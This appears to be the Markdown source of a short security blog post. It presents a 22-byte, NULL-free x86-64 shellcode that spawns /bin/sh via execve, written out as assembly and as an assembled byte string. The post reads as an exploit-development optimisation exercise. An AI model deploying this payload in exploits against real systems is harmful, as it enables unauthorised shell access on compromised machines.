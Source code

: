 ```yaml
---
layout: post
title: "Even shorter x86-64 shellcode"
category: Security
date: 2016-04-27
tags:
  - Security
  - Shellcode
  - Exploitation
---
```


So about two years ago, I put together the [shortest x86-64 shellcode for
`execve("/bin/sh",...);`] that I could.  At the time, it was 25 bytes, which I
thought was pretty damn good.  However, I'm a perfectionist and so I spent some
time before work this morning playing shellcode golf.  The rules of my shellcode
golf are pretty simple:

* The shellcode must produce the desired effect.
* It doesn't have to do things cleanly (i.e., segfaulting after is OK, as is
  using APIs in unusual ways, so long as it works)
* It can assume the stack pointer is at a place where it will not segfault and
  it will not overwrite the shellcode itself.
* No NULLs.  While there might be other constraints, this one is too common to
  not have as a default.

So, spending a little bit of time on this, I came up with the following 22 byte
shellcode:

~~~
BITS 64

xor esi, esi
push rsi
mov rbx, 0x68732f2f6e69622f
push rbx
push rsp
pop rdi
imul esi
mov al, 0x3b
syscall
~~~

Assembled, we get:

~~~
char shellcode[] = "\x31\xF6\x56\x48\xBB\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x53\x54\x5F\xF7\xEE\xB0\x3B\x0F\x05";
~~~

This is shorter than anything I could find on shell-storm or other shellcode
repositories.  If you know of something shorter or think you can do better, let
me know!
